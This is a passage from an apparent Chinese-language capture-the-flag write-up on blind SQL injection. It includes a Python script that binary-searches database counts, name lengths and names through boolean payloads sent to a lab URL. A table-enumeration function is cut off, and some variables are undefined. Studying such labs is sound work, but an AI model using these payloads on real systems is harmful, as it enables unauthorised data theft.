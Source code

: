 
### 另外
数量也可以通过
`order by`子句判断返回的列数。当构造order by为5时，界面无回显、值为4时有回显。所以列数应该是4


### payload
原理都知道了，就用python写个程序爆破一下
```python
import requests

url="http://106.54.188.129/lev1/verify.php?id=";



def GetDatabase():
    i = 1
    j = 255
    while(i<=j):
        m = (i+j)//2
        id = "1'and ((select count(*) from information_schema.schemata) >%d ) and '1'='1" %(m)
        re = requests.request("get", url+id).text;
        if tip in re:
            i = m + 1
        else:
            j = m -1
    GetDatabaseLength(i)
def GetDatabaseLength(n):
    for k in range(n):
        i = 1
        j = 255
        while (i <= j):
            m = (i + j) // 2
            id = "1'and ((select length(schema_name) from information_schema.schemata limit %d,1) >%d ) and '1'='1" % (k,m)
            re = requests.request("get", url + id).text;
            if tip in re:
                i = m + 1
            else:
                j = m - 1
        GetDatabaseName(k,i)
def GetDatabaseName(n,len):
    for k in range(len):
        i = 1
        j = 127
        while (i <= j):
            m = (i + j) // 2
            id = "1' and ((select ascii(substr(schema_name,%d,1)) from information_schema.schemata limit %d,1)>%d) and '1' = '1" % (k+1,n, m)
            re = requests.request("get", url + id).text;
            if tip in re:
                i = m + 1
            else:
                j = m - 1
        print(chr(i),end='')
    print()
def GetTable():
    i = 1
    j = 255
    while (i <= j):
        m = (i + j) // 2
        id = "1'and ((select count(*) from information_schema.tables where table_schema = '%s' ) >%d ) and '1'='1" % (dbname,m)
        re = requests.request("get", url + id).text;
```
